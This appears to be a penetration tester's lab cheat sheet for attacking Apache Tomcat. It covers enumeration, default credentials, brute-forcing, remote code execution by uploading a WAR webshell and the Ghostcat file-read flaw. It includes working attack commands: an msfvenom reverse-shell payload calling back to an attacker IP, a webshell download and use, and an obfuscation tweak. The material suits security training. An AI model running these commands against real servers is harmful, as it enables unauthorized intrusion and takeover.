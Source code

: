 ### Footprinting + Enumeration
```bash
curl -s http://app-dev.inlanefreight.local:8080/docs/ | grep Apache Tomcat
curl -s http://app-dev.inlanefreight.local:8080/docs/ | grep Tomcat 
```

```bash
gobuster dir -u http://adot8.com -w ~/opt/wordlists/directory-list-2.3-medium.txt
 -x txt,html -t 100
```

Tomcat webapps folder structure
```bash
webapps/customapp
├── images
├── index.jsp
├── META-INF
│   └── context.xml
├── status.xsd
└── WEB-INF
    ├── jsp
    |   └── admin.jsp
    └── web.xml
    └── lib
    |    └── jdbc_drivers.jar
    └── classes
        └── AdminServlet.class   
```
The **most important f**ile among these is `WEB-INF/web.xml`, which is known as the deployment descriptor. This file stores information about the routes used by the application and the classes handling these routes. All compiled classes used by the application should be stored in the `WEB-INF/classes` folder. These classes might contain important business logic as well as sensitive information. Any vulnerability in these files can lead to total compromise of the website. The `lib` folder stores the libraries needed by that particular application

The `web.xml `configuration above defines a new servlet named AdminServlet that is mapped to the class `com.inlanefreight.api.AdminServlet.` Java uses the dot notation to create package names, meaning the path on disk for the class defined above would be:

    classes/com/inlanefreight/api/AdminServlet.class

Next, a new servlet mapping is created to map requests to /admin with AdminServlet. This configuration will send any request received for /admin to the AdminServlet.class class for processing. The web.xml descriptor holds a lot of sensitive information and is an important file to check when leveraging a Local File Inclusion (LFI) vulnerability.

The `tomcat-users.xml` file is used to allow or disallow access to the /manager and host-manager admin pages.

```bash
!-- user manager can access only manager section -->
<role rolename="manager-gui" />
<user username="tomcat" password="tomcat" roles="manager-gui" />

<!-- user admin can access manager and admin section both -->
<role rolename="admin-gui" />
<user username="admin" password="admin" roles="manager-gui,admin-gui" />
```

```shell
├── bin
├── conf
│   ├── catalina.policy
│   ├── catalina.properties
│   ├── context.xml
│   ├── tomcat-users.xml
│   ├── tomcat-users.xsd
│   └── web.xml
```
### Exploitation
#### Password spraying
```
tomcat:tomcat
admin:admin
```
#### Login Bruteforcing
```
use auxiliary/scanner/http/tomcat_mgr_login
set stop_on_success true
```
This is another tool that can perform the bruteforcing [Tomcat-Manager-Bruteforce](https://github.com/b33lz3bub-1/Tomcat-Manager-Bruteforce)
```bash
python3 mgr_brute.py -U http://web01.inlanefreight.local:8180/ -P /manager -u /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt -p /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt
```
#### RCE via WAR File Upload
```bash
use exploit/multi/http/tomcat_mgr_upload
```
**Alternatively**
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.15 LPORT=4443 -f war > backup.war

wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
zip -r backup.war cmd.jsp 
```
`Browse` to select the .war file and then click on `Deploy`
View that `/backup` is a n application path
```bash
curl http://web01.inlanefreight.local:8180/backup/cmd.jsp?cmd=id
```
###### Obfuscation
Change 
```java
FileOutputStream(f);stream.write(m);o="Uploaded:
```
To
```java
FileOutputStream(f);stream.write(m);o="uPlOaDeD:
```
###### Cleanup
To clean up after ourselves, we can go back to the main Tomcat Manager page and click the `Undeploy` button next to the `backups` application after, of course, noting down the file and upload location for our report, which in our example is `/opt/tomcat/apache-tomcat-10.0.10/webapps`. If we do an `ls` on that directory from our web shell, we'll see the uploaded `backup.war` file and the `backup` directory containing the `cmd.jsp` script and `META-INF` created after the application deploys. Clicking on `Undeploy` will typically remove the uploaded WAR archive and the directory associated with the application.

#### Known Vulnerabilities
##### Ghostcat
Tomcat was found to be vulnerable to an unauthenticated LFI in a semi-recent discovery named [Ghostcat](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-1938)

Nmap output
```bash
PORT     STATE SERVICE VERSION
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
8080/tcp open  http    Apache Tomcat 9.0.30
```

```bash
use auxiliary/admin/http/tomcat_ghostcat
```

The PoC code for the vulnerability can be found [here](https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi)
```shell
python2.7 tomcat-ajp.lfi.py app-dev.inlanefreight.local -p 8009 -f WEB-INF/web.xml
```